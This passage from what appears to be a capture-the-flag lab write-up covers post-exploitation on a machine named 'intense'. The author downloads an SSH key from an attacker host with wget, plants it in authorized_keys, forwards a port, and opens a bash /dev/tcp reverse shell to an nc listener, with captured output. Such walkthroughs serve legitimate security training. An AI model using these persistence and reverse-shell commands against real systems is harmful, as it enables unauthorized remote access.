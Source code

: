 This user had the shell set to `/bin/false` but we can get a shell,for this I'll drop a `ed25519` ssh public key (the snmp has a limitation when sending characters this key is shorter)

```
ssh-keygen -o -a 100 -t ed25519 -f mykey
```

I'll set up a server to download the key and download it:

```
Debian-snmp@intense:/dev/shm$ wget http://10.10.14.8/temp
```

Now go to `/var/lib/snmp/.ssh` and redirect the ouput of the key to `authorized_keys`:

```
Debian-snmp@intense:/var/lib/snmp/.ssh$ cat /dev/shm/temp >> authorized_keys
```

And the port forward with ssh:

```
ssh -N -R 4444:127.0.0.1:4444 Debian-snmp@10.10.10.195 -i mykey
```

Then start a listener:

```
rlwrap nc -lvnp 4444
```

Execute the `/dev/tcp` reverse shell:

```
Debian-snmp@intense:/var/lib/snmp/.ssh$ bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"
```

And I get the shell back:

```
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 47242
bash: cannot set terminal process group (1178): Inappropriate ioctl for device
bash: no job control in this shell
Debian-snmp@intense:/var/lib/snmp/.ssh$
```

Now you can create a snmpd config file at `/var/lib/snmp/smpd.local.conf` with the useragent root and with the snmp shell execute:

```bash
bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"
```
